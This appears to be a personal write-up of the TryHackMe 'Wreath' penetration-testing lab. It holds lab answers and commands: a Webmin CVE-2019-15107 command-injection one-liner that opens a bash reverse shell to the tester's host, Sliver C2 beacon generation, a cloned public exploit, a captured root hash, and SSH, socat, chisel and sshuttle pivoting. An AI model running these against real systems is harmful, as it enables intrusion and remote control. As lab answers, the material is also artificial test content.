

# Wreath Writeup


Name: Wreath
Date:  
Difficulty:  
Goals:  
- Solidify Pivoting skills
- PWK HERE WE GO!
- 
Learnt:
- Masscan does miss - Check on the naabu / rustscan alternative question again 
- Flexing changing it up and feeling good while flexing changing up on the fly!
- Making python virtual environments is just that easy
- Thomas Wreath is as haunting as Alh4zr3d described.
- Serious ShadowIT-Defined-Routes wins!
Beyond Root:
- Do the report like a professional
- Prep reporting for further Offsec certs 2023!

- [[Wreath-Notes.md]]
- [[Wreath-CMD-by-CMDs.md]]
- [[Wreath-Penetration-Test-Report]]


##

#### Lab Scope

`toolname-username` - Shared network naming conventions

#### Brief

*There are two machines on my home network that host projects and stuff I'm working on in my own time -- one of them has a webserver that's port forwarded, so that's your way in if you can find a vulnerability! It's serving a website that's pushed to my git server from my own PC for version control, then cloned to the public facing server. See if you can get into these! My own PC is also on that network, but I doubt you'll be able to get into that as it has protections turned on, doesn't run anything vulnerable, and can't be accessed by the public-facing section of the network. Well, I say PC -- it's technically a repurposed server because I had a spare license lying around, but same difference.*
## Webserver Enumeration

The time to live(ttl) indicates its OS. It is a decrementation from each hop back to original ping sender. Linux is < 64, Windows is < 128.


Masscan missed the top 10000 plus port once on 300 rate and on 100 rate... I miss read that 

nikto - found redirect https://thomaswreath.thm


Nuclei find open redirect to a weird domain... 
`[open-redirect] [http] [medium] http://10.200.96.200/.evil.com [redirect=".evil.com"]`

Mr Wreath is backdoored - this should not resolve


`mx.evil.com`  is mail server DNS recond also found by Nuclei the `thomaswreath.thm.evil.com`

[[CVE-2018-11784-http___10.200.96.200__interact.sh]]


#### Task 5 Webserver Enumeration

How many of the first 15000 ports are open on the target?
```
5
```
What OS does Nmap think is running?
```
centos
```

What site does the server try to redirect you to?
```
https://thomaswreath.thm
```

What is Thomas' mobile phone number?


```
+447821548812
```

What server version does Nmap detect as running here?
```
MiniServ 1.890 (Webmin httpd)
```

What is the CVE number for this exploit?
```
CVE-2019-15107
```

## Webserver Exploitation

I am prepared doing this machine and do not need to learn Empire or Chisel (just revising chisel) and will use Silver instead.

```go
generate beacon --mtls 10.50.76.121:2222 --arch amd64 --os linux --save /home/kali/Wreath/
mtls -L 10.50.76.121  -l 2222

// In Directory pack to reduce file size
upx WIDE-EYED_TRAM

```


[Exploit DB for Webmin 1.920 - Unauthenticated Remote Code Execution (Metasploit)](https://www.exploit-db.com/exploits/47230), because OSCP's one Metasploit usage on one machine   


So we do need to worry about python virtual environments for compatibility
```bash
curl  -k https://10.200.96.200:10000/password_change.cgi -d 'user=gotroot&pam=&expired=2|echo ""; bash -i >& /dev/tcp/10.50.76.121/10000 0>&1' -H 'Referer: https://10.200.96.200:10000/session_login.cgi'
```

[Muirland also has provided an exploit to use](https://github.com/MuirlandOracle/CVE-2019-15107) - a better way to do this would be to create a virtual environment
```bash
git clone https://github.com/MuirlandOracle/CVE-2019-15107
cd CVE-2019-15107 
python3 -m venv .venv
source .venv/bin/activate
pip3 install .
python3 CVE-2019-15107.py $IP
```

#### Answers to the next section...

#### Task 6 Webserver Exploitation

Which user was the server running as?
```
root
```

What is the root user's password hash?
```
$6$i9vT8tk3SoXXxK2P$HDIAwho9FOdd4QCecIJKwAwwh8Hwl.BdsbMOUAd3X/chSCvrmpfy.5lrLgnRVNq6/6g0PxK9VqSdy47/qKXad1
```

What is the full path to this file?
```
/root/.ssh/id_rsa
```
#### Task 8 Pivoting High-level Overview

Which type of pivoting creates a channel through which information can be sent hidden inside another protocol?  
```
Tunneling
```

**Research:** Not covered in this Network, but good to know about. Which Metasploit Framework Meterpreter command can be used to create a port forward?
```
portfwd
```

#### Task 9 Pivoting Enumeration

What is the absolute path to the file containing DNS entries on Linux?  
```
/etc/resolv.conf
```

What is the absolute path to the hosts file on Windows?  
```
C:\Windows\System32\drivers\etc\hosts
```

How could you see which IP addresses are active and allow ICMP echo requests on the 172.16.0.x/24 network using Bash?
```
for i in {1..255}; do (ping -c 1 172.16.0.${i} | grep "bytes from" &); done
```

#### Task 10 Pivoting Proxychains & Foxyproxy

What line would you put in your proxychains config file to redirect through a socks4 proxy on 127.0.0.1:4242?  
```
socks4 127.0.0.1 4242
```

What command would you use to telnet through a proxy to 172.16.0.100:23?  
```
proxychains telnet 172.16.0.100 23
```

You have discovered a webapp running on a target inside an isolated network. Which tool is more apt for proxying to a webapp: Proxychains (PC) or FoxyProxy (FP)?
```
FP
```
#### Task 11 Pivoting SSH Tunnelling / Port Forwarding

If you're connecting to an SSH server _from_ your attacking machine to create a port forward, would this be a local (L) port forward or a remote (R) port forward?  
```
L
```
Which switch combination can be used to background an SSH port forward or tunnel?  
```
-fN
```

It's a good idea to enter our own password on the remote machine to set up a reverse proxy, Aye or Nay? ```
```
Nay
```


What command would you use to create a pair of throwaway SSH keys for a reverse connection?  
```
ssh-keygen
```


If you wanted to set up a reverse portforward from port 22 of a remote machine (172.16.0.100) to port 2222 of your local machine (172.16.0.200), using a keyfile called `id_rsa` and backgrounding the shell, what command would you use? (Assume your username is "kali")  
```
ssh -R 2222:172.16.0.100:22 kali@172.16.0.200 -i id_rsa -fN
```

What command would you use to set up a forward proxy on port 8000 to user@target.thm, backgrounding the shell?  
```
ssh -D 8000 user@target.thm -fN
```

If you had SSH access to a server (172.16.0.50) with a webserver running internally on port 80 (i.e. only accessible to the server itself on 127.0.0.1:80), how would you forward it to port 8000 on your attacking machine? Assume the username is "user", and background the shell.
```
ssh -R 8000:127.0.0.1:80 user@172.16.0.50 -fN 
```

#### Task 12 Pivoting plink.exe

What tool can be used to convert OpenSSH keys into PuTTY style keys?
```
puttygen
```

#### Task 13 Pivoting Socat

Which socat option allows you to reuse the same listening port for more than one connection?  
```
reuseaddr
```

If your Attacking IP is 172.16.0.200, how would you relay a reverse shell to TCP port 443 on your Attacking Machine using a static copy of socat in the current directory?  Use TCP port 8000 for the server listener, and **do not** background the process.  
```
./socat tcp-l:8000 tcp:172.16.0.200:443
```

What command would you use to forward TCP port 2222 on a compromised server, to 172.16.0.100:22, using a static copy of socat in the current directory, and backgrounding the process (easy method)?
```
./socat tcp-l:2222,fork,reuseaddr tcp:172.16.0.100:22 &
```
#### Task 14 Pivoting Chisel

What command would you use to start a chisel server for a reverse connection on your attacking machine? Use port 4242 for the listener and **do not** background the process.  
```
./chisel server -p 4242 -reverse
```

What command would you use to connect back to this server with a SOCKS proxy from a compromised host, assuming your own IP is 172.16.0.200 and backgrounding the process?

```
./chisel client 172.16.0.200R:4242:socks
```

How would you forward 172.16.0.100:3306 to your own port 33060 using a chisel remote port forward, assuming your own IP is 172.16.0.200 and the listening port is 1337? Background this process.  
```
./chisel client 172.16.0.200:1337  R:33060 :172.16.0.100:3306 & 
```

If you have a chisel server running on port 4444 of 172.16.0.5, how could you create a local portforward, opening port 8000 locally and linking to 172.16.0.10:80?
```
./chisel client 172.16.0.5:4444 8000:172.16.0.10:80
```
#### Task 15 Pivoting sshuttle

How would you use sshuttle to connect to 172.16.20.7, with a username of "pwned" and a subnet of 172.16.0.0/16  
```
sshuttle pwned@172.16.20.7 172.16.0.0/16
```

What switch (and argument) would you use to tell sshuttle to use a keyfile called "priv_key" located in the current directory?  
```
--ssh-cmd "ssh -i priv_key"
```

You are trying to use sshuttle to connect to 172.16.0.100.  You want to forward the 172.16.0.x/24 range of IP addreses, but you are getting a Broken Pipe error. What switch (and argument) could you use to fix this error?
```
-x 172.16.0.100
```


#### Task 17 Git Server Enumeration

#### Task 18 Git Server Pivoting

#### Task 19 Git Server Code Review

#### Task 20 Git Server Exploitation

#### Task 21 Git Server Stabilisation & Post Exploitation


## C2 Choices Diverge...

From this point I will use silver instead of PowerShell Empire here are the answers.
#### Task 24 Command and Control Empire: Overview

Can we get an agent back from the git server directly (Aye/Nay)?
```
Nay
```

#### Task 27 Command and Control Empire: Agents

Using the `help` command for guidance: in Empire CLI, how would we run the `whoami` command inside an agent?
```
shell whoami
```

## Return with Sliver


#### Task 33 Personal PC Enumeration

#### Task 34 Personal PC Pivoting

#### Task 35 Personal PC The Wonders of Git

#### Task 36 Personal PC Website Code Analysis

#### Task 37 Personal PC Exploit PoC

#### Task 38 AV Evasion Introduction

#### Task 39 AV Evasion AV Detection Methods

#### Task 40 AV Evasion PHP Payload Obfuscation

#### Task 41 AV Evasion Compiling Netcat & Reverse Shell!

#### Task 42 AV Evasion Enumeration

#### Task 43 AV Evasion Privilege Escalation

#### Task 44 Exfiltration Exfiltration Techniques & Post Exploitation

#### Task 45 Conclusion Debrief & Report

